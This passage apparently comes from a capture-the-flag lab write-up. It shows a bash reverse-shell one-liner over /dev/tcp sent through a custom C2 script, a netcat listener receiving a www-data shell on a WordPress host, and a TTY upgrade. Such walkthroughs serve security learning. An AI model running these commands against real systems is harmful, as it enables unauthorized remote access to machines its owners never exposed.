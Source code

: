 I'll test changing `id` to a bash reverse shell in the script:



        cmd = b"bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"



I'll save that and send it, and run it. On clicking Send in Repeater,
there's a the connection:



    oxdf@hacky$ python3 c2.py 
    [+] Connection from 10.10.10.140
    [*] Session ID: b'9441aaf0-856a-46a0-a9ee-8c3180e4fc3d'
    [*] XOR key: Q



And then a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:45002.
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@wordpress:/var/www.md$



No Python on the box, but `script` works for a shell upgrade:



    www-data@wordpress:/var/www.md$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@wordpress:/var/www.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@wordpress:/var/www.md$



### Script

In case I need to come back and get a shell again, I'll update my script
to handle the POST request as well as the sending of the command. It
takes my local IP and the port I want a shell on. First it sets up the
listening port. If I don't do this first, the response can come in
before I'm listening for it. But `s.listen(1)` isn't blocking, so I can
call that and then continue. Next I'll send the POST to trigger the
connection back on 20053. After that, I'll accept the connection, and
send the reverse shell.
